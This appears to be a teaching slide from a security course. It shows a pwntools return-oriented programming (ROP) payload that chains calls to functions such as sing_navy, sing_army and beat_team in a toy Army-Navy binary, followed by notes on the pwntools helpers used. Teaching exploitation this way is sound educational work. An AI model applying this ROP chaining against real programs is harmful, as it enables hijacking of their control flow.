

# Army-Navy ROP ROP Example
# stage1: sing usna alma mater
payload = cyclic(16)
payload += p64(e.sym['sing_navy']+8)

# stage2: sing usma alma mater
payload += cyclic(8)
payload += p64(e.sym['sing_army']+8)

# stage3: beat_team("Navy!")
payload += cyclic(8)
payload += p64(e.sym['easy_button'])
payload += p64(next(e.search(b’Navy\x00')))
payload += cyclic(16)
payload += p64(e.sym['beat_team'])
Sing_navy(NULL)
Sing_army(NULL)
beat_team(“Army”)
Pwntools Notes:
cyclic(x): create a pattern of x characters
p64(x): create a byte array that represents the integer b in the correct endianness
e.sym[x]: return the address of the symbol x
next(e.search(x)): return the address of the string x